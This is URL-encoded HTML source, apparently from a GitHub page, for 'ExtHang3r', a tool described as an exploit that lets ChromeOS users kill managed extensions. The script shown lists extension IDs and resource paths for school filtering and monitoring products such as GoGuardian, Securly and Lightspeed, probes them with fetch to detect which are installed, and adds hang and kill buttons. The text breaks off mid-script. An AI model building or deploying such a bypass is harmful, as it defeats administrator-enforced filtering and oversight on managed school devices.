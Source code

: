 ```md
%3C%2Fhead%3E%0A%3Cbody%3E%0A%0A%3Cheader%3E%0A%20%20%3Cimg%20src%3D%22https%3A%2F%2Fblobby-boi.github.io%2FBlobbypassXSS%2Ffavicon.png%22%20alt%3D%22Logo%22%20class%3D%22logo%22%3E%0A%20%20%3Ch1%3EExtHang3r%3C%2Fh1%3E%0A%3C%2Fheader%3E%0A%0A%3Cdiv%20class%3D%22container%22%3E%0A%20%20%3Cp%3EExtHang3r%20is%20an%20exploit%20that%20allows%20ChromeOS%20users%20to%20kill%20managed%20extensions%20after%20the%20LTMEAT%20patch.%20It%20remains%20unpatched%20in%20all%20new%20ChromeOS%20versions%20as%20of%20September%202024.%3C%2Fp%3E%0A%20%20%3Clabel%20for%3D%22iframeSelect%22%20id%3D%22labelForIframeSelect%22%3ESelect%20extension%3A%3C%2Flabel%3E%0A%20%20%3Cselect%20id%3D%22iframeSelect%22%3E%0A%20%20%3C%2Fselect%3E%0A%20%20%3Cbutton%20onclick%3D%22warning()%3B%22%20id%3D%22hangButton%22%3EHang%20Extension!%3C%2Fbutton%3E%0A%20%20%3Cbutton%20id%3D%22killButton%22%20onclick%3D%22openExtensionPopup()%3B%22%3EKill%20Extension!%3C%2Fbutton%3E%0A%3C%2Fdiv%3E%0A%0A%3Cdiv%20class%3D%22overlay%22%20id%3D%22overlay%22%3E%0A%20%20%3Cdiv%20class%3D%22spinner%22%3E%3C%2Fdiv%3E%0A%20%20Hanging...%20(This%20will%20take%20about%201%20minute)%0A%3C%2Fdiv%3E%0A%3Cdiv%20id%3D%22killExtensionText%22%3E%3C%2Fdiv%3E%0A%0A%3Cfooter%3E%0A%20%20%3Cp%3EMade%20by%20%3Ca%20href%3D%22https%3A%2F%2Fgithub.com%2FBlobby-Boi%2F%22%3EBlobby%20Boi%3C%2Fa%3E%3C%2Fp%3E%0A%3C%2Ffooter%3E%0A%0A%3Cscript%3E%0A%20%20async%20function%20checkExtensionURL(url)%20%7B%0A%20%20%20%20try%20%7B%0A%20%20%20%20%20%20const%20response%20%3D%20await%20fetch(url)%3B%0A%20%20%20%20%20%20if%20(response.ok)%20%7B%0A%20%20%20%20%20%20%20%20return%20true%3B%0A%20%20%20%20%20%20%7D%20else%20%7B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%20catch%20(error)%20%7B%0A%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%20%20%7D%0A%0A%20%20async%20function%20populateSelectOptions()%20%7B%0A%20%20%20%20const%20selectElement%20%3D%20document.getElementById(%22iframeSelect%22)%3B%0A%20%20%20%20const%20extensions%20%3D%20%7B%0A%20%20%20%20%20%20%22Securly%22%3A%20%22chrome-extension%3A%2F%2Fjoflmkccibkooplaeoinecjbmdebglab%2Ffonts%2FMetropolis.css%22%2C%0A%20%20%20%20%20%20%22Securly%20(old)%22%3A%20%22chrome-extension%3A%2F%2Fiheobagjkfklnlikgihanlhcddjoihkg%2Ffonts%2FMetropolis.css%22%2C%0A%20%20%20%20%20%20%22GoGuardian%22%3A%20%22chrome-extension%3A%2F%2Fhaldlgldplgnggkjaafhelgiaglafanh%2Fyoutube_injection.js%22%2C%0A%20%20%20%20%20%20%22LANSchool%22%3A%20%22chrome-extension%3A%2F%2Fbaleiojnjpgeojohhhfbichcodgljmnj%2Fblocked.html%22%2C%0A%20%20%20%20%20%20%22Linewize%22%3A%20%22chrome-extension%3A%2F%2Fddfbkhpmcdbciejenfcolaaiebnjcbfc%2Fbackground%2Fassets%2Fpages%2Fdefault-blocked.html%22%2C%0A%20%20%20%20%20%20%22Blocksi%22%3A%20%22chrome-extension%3A%2F%2Fghlpmldmjjhmdgmneoaibbegkjjbonbk%2Fpages%2FblockPage.html%22%2C%0A%20%20%20%20%20%20%22FortiGuard%22%3A%20%22chrome-extension%3A%2F%2Figbgpehnbmhgdgjbhkkpedommgmfbeao%2Fyoutube_injection.js%22%2C%0A%20%20%20%20%20%20%22Cisco%20Umbrella%22%3A%20%22chrome-extension%3A%2F%2Fjcdhmojfecjfmbdpchihbeilohgnbdci%2Fblocked.html%22%2C%0A%20%20%20%20%20%20%22ContentKeeper%22%3A%20%22chrome-extension%3A%2F%2Fjdogphakondfdmcanpapfahkdomaicfa%2Fimg%2Fckauth19x.png%22%2C%0A%20%20%20%20%20%20%22CK-Authenticator%20G3%22%3A%20%22chrome-extension%3A%2F%2Fodoanpnonilogofggaohhkdkdgbhdljp%2Fimg%2Fckauth19x.png%22%2C%0A%20%20%20%20%20%20%22Securly%20Classroom%22%3A%20%22chrome-extension%3A%2F%2Fjfbecfmiegcjddenjhlbhlikcbfmnafd%2Fnotfound.html%22%2C%0A%20%20%20%20%20%20%22Hapara%22%3A%20%22chrome-extension%3A%2F%2Fkbohafcopfpigkjdimdcdgenlhkmhbnc%2Fblocked.html%22%2C%0A%20%20%20%20%20%20%22Hapara%20(new%20ID)%22%3A%20%22chrome-extension%3A%2F%2Faceopacgaepdcelohobicpffbbejnfac%2Fblocked.html%22%2C%0A%20%20%20%20%20%20%22iboss%22%3A%20%22chrome-extension%3A%2F%2Fkmffehbidlalibfeklaefnckpidbodff%2Frestricted.html%22%2C%0A%20%20%20%20%20%20%22Lightspeed%20Filter%20Agent%22%3A%20%22chrome-extension%3A%2F%2Fadkcpkpghahmbopkjchobieckeoaoeem%2Ficon-128.png%22%2C%0A%20%20%20%20%20%20%22Lightspeed%20Classroom%22%3A%20%22chrome-extension%3A%2F%2Fkkbmdgjggcdajckdlbngdjonpchpaiea%2Fassets%2Ficon-classroom-128.png%22%2C%0A%20%20%20%20%20%20%22InterCLASS%20Filtering%20Service%22%3A%20%22chrome-extension%3A%2F%2Fjbddgjglgkkneonnineaohdhabjbgopi%2Fpages%2Fmessage-page.html%22%2C%0A%20%20%20%20%20%20%22InterSafe%20GatewayConnection%20Agent%22%3A%20%22chrome-extension%3A%2F%2Fecjoghccnjlodjlmkgmnbnkdcbnjgden%2Fresources%2Foptions.js%22%2C%0A%20%20%20%20%20%20%22LoiLo%20Web%20Filters%22%3A%20%22chrome-extension%3A%2F%2Fpabjlbjcgldndnpjnokjakbdofjgnfia%2Fimage%2Fallow_icon%2Fshield_green_128x128.png%22%2C%0A%20%20%20%20%20%20%22Gopher%20Buddy%22%3A%20%22chrome-extension%3A%2F%2Fcgbbbjmgdpnifijconhamggjehlamcif%2Fimages%2Fgopher-buddy_128x128_color.png%22%2C%0A%20%20%20%20%20%20%22LanSchool%20Web%20Helper%22%3A%20%22chrome-extension%3A%2F%2Fhonjcnefekfnompampcpmcdadibmjhlk%2Fblocked.html%22%2C%0A%20%20%20%20%20%20%22IMTLazarus%22%3A%20%22chrome-extension%3A%2F%2Fcgigopjakkeclhggchgnhmpmhghcbnaf%2Fmodels%2Fmodel.json%22%2C%0A%20%20%20%20%20%20%22Impero%20Backdrop%22%3A%20%22chrome-extension%3A%2F%2Fjjpmjccpemllnmgiaojaocgnakpmfgjg%2Flicenses.html%22%2C%0A%20%20%20%20%20%20%22Mobile%20Guardian%22%3A%20%22chrome-extension%3A%2F%2Ffgmafhdohjkdhfaacgbgclmfgkgokgmb%2Fblock.html%22%0A%20%20%20%20%7D%3B%0A%20%20%20%20%0A%20%20%20%20let%20hasSupportedExtensions%20%3D%20false%3B%0A%0A%20%20%20%20for%20(const%20%5Bname%2C%20url%5D%20of%20Object.entries(extensions))%20%7B%0A%20%20%20%20%20%20if%20(await%20checkExtensionURL(url))%20%7B%0A%20%20%20%20%20%20%20%20const%20option%20%3D%20document.createElement(%22option%22)%3B%0A%20%20%20%20%20%20%20%20option.value%20%3D%20url%3B%0A%20%20%20%20%20%20%20%20option.textContent%20%3D%20name%3B%0A%20%20%20%20%20%20%20%20selectElement.appendChild(option)%3B%0A%20%20%20%20%20%20%20%20hasSupportedExtensions%20%3D%20
```